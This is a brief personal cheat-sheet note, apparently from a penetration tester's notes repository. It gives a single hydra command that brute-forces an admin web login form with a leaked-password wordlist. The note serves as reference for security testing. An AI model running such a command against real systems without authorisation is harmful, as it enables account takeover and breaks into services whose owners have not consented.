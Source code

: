 # hydra brute force HTTP post form
```bash
hydra $IP http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" \
-l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```

` zet/20221003150666/README.md `

# Related


Tags:

    
